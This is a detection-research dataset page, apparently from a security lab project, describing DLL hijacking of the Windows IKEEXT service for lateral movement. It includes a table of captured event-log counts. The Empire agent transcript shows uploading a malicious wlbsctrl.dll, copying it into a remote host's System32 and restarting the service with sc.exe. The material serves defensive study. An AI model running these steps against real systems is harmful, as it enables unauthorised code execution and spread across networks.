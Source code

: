 
# SCM and Dll Hijacking IKEEXT

Instead of creating new services, attackers can move laterally using the SCM by copying specifically crafted Dynamic Link Library (DLL) files to trusted directories and restarting services remotely. This is made possible due to the fact that these services call LoadLibrary on libraries not present in the specified path.

IKEEXT hosts the Internet Key Exchange (IKE) and Authenticated Internet Protocol (AuthIP) keying modules. When the service is started, it searches for the file wlbsctrl.dll. This is the first indicator that the service is potentially vulnerable to DLL hijacking. [Reference](https://medium.com/@djhohnstein)

## Technique(s) ID

T1105

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_scm_dll_hijack_ikeext.tar.gz](./empire_scm_dll_hijack_ikeext.tar.gz)

## Network Environment

Shire

## Time Taken

2019-04-03133337

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |            1000 |
| Security                                 | Filtering Platform Connection                          |             487 |
| Security                                 | Removable Storage                                      |             194 |
| Security                                 | Token Right Adjusted Events                            |             193 |
| Security                                 | Handle Manipulation                                    |              60 |
| Security                                 | Process Termination                                    |              46 |
| Security                                 | Process Creation                                       |              32 |
| Security                                 | User Account Management                                |              32 |
| Security                                 | Group Membership                                       |              26 |
| Security                                 | Logon                                                  |              26 |
| Security                                 | Special Logon                                          |              24 |
| Security                                 | Sensitive Privilege Use                                |              22 |
| Security                                 | Logoff                                                 |              17 |
| Security                                 | Authorization Policy Change                            |              16 |
| Security                                 | Detailed File Share                                    |              14 |
| Security                                 | Other Object Access Events                             |               7 |
| Security                                 | File Share                                             |               6 |
| Security                                 | File System                                            |               4 |
| Security                                 | SAM                                                    |               3 |
| Security                                 | Security Group Management                              |               2 |
| Security                                 | Security System Extension                              |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |            4048 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |            3984 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |            1650 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |            1056 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |             275 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |             106 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              52 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |              39 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |              32 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               5 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             835 |

## Empire Activity

```
(Empire: NZB6SE34) > upload /tmp/wlbsctrl.dll
[*] Tasked agent to upload wlbsctrl.dll, 124 KB
[*] Tasked NZB6SE34 to run TASK_UPLOAD
[*] Agent NZB6SE34 tasked with task ID 46
(Empire: NZB6SE34) > shell COPY .\wlbsctrl.dll \\HR001\C$\Windows\System32\wlbsctrl.dll
[*] Tasked NZB6SE34 to run TASK_SHELL
[*] Agent NZB6SE34 tasked with task ID 47
(Empire: NZB6SE34) > ..Command execution completed.

(Empire: NZB6SE34) > shell sc.exe `\`\HR001 stop IKEEXT
[*] Tasked NZB6SE34 to run TASK_SHELL
[*] Agent NZB6SE34 tasked with task ID 48
(Empire: NZB6SE34) > SERVICE_NAME: IKEEXT 
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x1388

..Command execution completed.

(Empire: NZB6SE34) > shell sc.exe `\`\HR001 query IKEEXT
[*] Tasked NZB6SE34 to run TASK_SHELL
[*] Agent NZB6SE34 tasked with task ID 49
(Empire: NZB6SE34) > SERVICE_NAME: IKEEXT 
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

..Command execution completed.

(Empire: NZB6SE34) > shell sc.exe `\`\HR001 start IKEEXT
[*] Tasked NZB6SE34 to run TASK_SHELL
[*] Agent NZB6SE34 tasked with task ID 50
(Empire: NZB6SE34) > SERVICE_NAME: IKEEXT 
        TYPE               : 30  WIN32  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4500
        FLAGS              : 

..Command execution completed.

(Empire: NZB6SE34) > 
```
